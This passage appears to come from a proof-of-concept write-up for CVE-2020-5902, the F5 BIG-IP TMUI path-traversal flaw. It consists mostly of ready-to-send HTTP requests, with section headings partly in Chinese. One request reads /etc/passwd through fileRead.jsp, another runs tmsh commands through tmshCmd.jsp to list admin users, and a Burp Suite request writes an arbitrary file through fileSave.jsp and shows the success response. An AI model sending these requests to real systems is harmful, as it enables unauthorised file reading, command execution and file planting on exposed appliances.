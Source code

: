 ```http
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### 0x0902远程命令执行

Example:

```
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin

`list auth user` look all user

`list auth user admin` only look admin user
```

`https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions`

![img](images/2020_07_01/RCE.png)

```http
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### 0x0903上传文件

Example:`/tmui/locallb/workspace/fileSave.jsp`

POST: `fileName=/tmp/1.txt&content=CVE-2020-5902`

![img](images/2020_07_01/fileSave.png)

![img](images/2020_07_01/tmp_1.png)

#### Burpsuite Requests

```http
POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

fileName=/tmp/1.txt&content=CVE-2020-5902


HTTP/1.1 200 OK
```